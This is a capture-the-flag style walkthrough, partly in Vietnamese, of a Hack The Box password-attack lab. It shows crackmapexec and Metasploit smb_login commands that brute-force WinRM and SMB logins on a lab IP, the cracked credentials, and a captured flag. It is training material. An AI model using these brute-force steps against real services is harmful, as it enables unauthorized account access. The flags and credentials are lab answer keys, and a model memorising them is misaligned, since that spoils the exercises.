 # Network Services
+ 0  Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```zsh
❯ crackmapexec winrm 10.129.105.153 -u username.list
```

`john:november`

![](images/1.png)

![](images/2.png)

+ 0  Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.
![](images/3.png)

`dennis:rockstar`

+ 0  Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```powershell
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

dennis@WINSRV C:\Users\dennis>cd Desktop 

dennis@WINSRV C:\Users\dennis\Desktop>type flag.txt 
HTB{Let5R0ck1t}                        
dennis@WINSRV C:\Users\dennis\Desktop> 
```

+ 0  Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

![](images/4.png)

`john:november`

Trông có vẻ dễ ăn cho tới khi không vào được (permission denied), chuyển hướng sang enum cả list với metasploit:

```zsh
msf6 auxiliary(scanner/smb/smb_login) > set user_file /home/kali/Desktop/learning/password_attack/username.list
user_file => /home/kali/Desktop/learning/password_attack/username.list
msf6 auxiliary(scanner/smb/smb_login) > set pass_file /home/kali/Desktop/learning/password_attack/password.list
pass_file => /home/kali/Desktop/learning/password_attack/password.list
msf6 auxiliary(scanner/smb/smb_login) > run
```


```zsh
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\john:november'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\dennis:rockstar'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\chris:789456123'
[+] 10.129.105.153:445    - 10.129.105.153:445 - Success: '.\cassie:12345678910'
```

Check `shares` thì có `CASSIE` -> Ưu tiên cassie:12345678910

![](images/5.png)